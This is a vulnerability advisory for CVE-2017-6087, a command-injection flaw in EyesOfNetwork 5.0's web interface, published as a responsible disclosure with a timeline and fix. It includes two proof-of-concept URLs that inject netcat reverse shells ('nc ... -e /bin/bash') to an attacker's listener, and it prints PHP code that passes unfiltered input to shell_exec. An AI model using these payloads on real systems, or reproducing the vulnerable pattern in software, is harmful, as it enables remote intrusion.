 # [CVE-2017-6087] EON 5.0 Remote Code Execution

## Description

EyesOfNetwork ("EON") is an OpenSource network monitoring solution.

## Remote Code Execution (authenticated)

The Eonweb code does not correctly filter arguments, allowing
authenticated users to execute arbitrary code.

**CVE ID**: CVE-2017-6087

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-78

**CVSS Base Score**: 7.6

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:L


### Proof of Concept 1

On the attacker's host, we start a handler:

```
nc -lvp 1337
```

The `selected_events` parameter is not correctly filtered before it is
used by the `shell_exec()` function.

There, it is possible to inject a payload like in the request below,
where we connect back to our handler:

```
https://eonweb.local/module/monitoring_ged/ged_actions.php?queue=history&action=confirm&global_action=4&selected_events%5B%5D=;nc%2010.0.5.124%201337%20-e%20/bin/bash;
```

#### Vulnerable code

The payload gets injected into the `$event[$key]` and `$ged_command`
variables of the `module/monitoring_ged/ged_functions.php` file, line 373:

```
$ged_command = "-update -type $ged_type_nbr ";
foreach ($array_ged_packets as $key => $value) {
  if($value["type"] == true){
    if($key == "owner"){
      $event[$key] = $owner;
    }
    $ged_command .= "\"".$event[$key]."\" ";
  }
}
$ged_command = trim($ged_command, " ");
shell_exec($path_ged_bin." ".$ged_command);
```

Two other functions in this file are also affected by this problem:

* `delete($selected_events, $queue);`
* `ownDisown($selected_events, $queue, $global_action);`


### Proof of Concept 2

On the attacker's host, we start a handler:

```
nc -lvp 1337
```

The `module` parameter is not correctly filtered before it is used by
the `shell_exec()` function.

Again, we inject our connecting back payload:

```
https://eonweb.local/module/index.php?module=|nc%20192.168.1.14%201337%20-e%20/bin/bash&link=padding
```

#### Vulnerable code

In the `module/index.php` file, line 24, we can see that our payload is
injected into the `exec()` function without any sanitization:

```
# Check optionnal module to load
if(isset($_GET["module"]) && isset($_GET["link"])) {

	$module=exec("rpm -q ".$_GET["module"]." |grep '.eon' |wc -l");

	# Redirect to module page if rpm installed
	if($module!=0) { header('Location: '.$_GET["link"].''); }

}
```


## Timeline (dd/mm/yyyy)

* 01/10/2016 : Initial discovery.
* 09/10/2016 : Fisrt contact with vendor.
* 23/10/2016 : Technical details sent to the security contact.
* 27/10/2016 : Vendor akwnoledgement and first patching attempt.
* 11/10/2016 : Testing the patch revealed that it needed more work.
* 16/02/2017 : New tests done on release candidate 5.1. Fix confirmed.
* 26/02/2017 : 5.1 release. Waiting for 2 weeks according to our
repsonsible disclosure agreement.
* 14/03/2017 : Public disclosure.

Thank you to EON for the fast response.

## Solution

Update to version 5.1

## Affected versions

* Version <= 5.0

## Credits

* Nicolas SERRA <n.serra@sysdream.com>

-- SYSDREAM Labs <labs@sysdream.com> 
GPG : 47D1 E124 C43E F992 2A2E 1551 8EB4 8CD9 D5B2 59A1 
* Website: https://sysdream.com/ * 
Twitter: @sysdream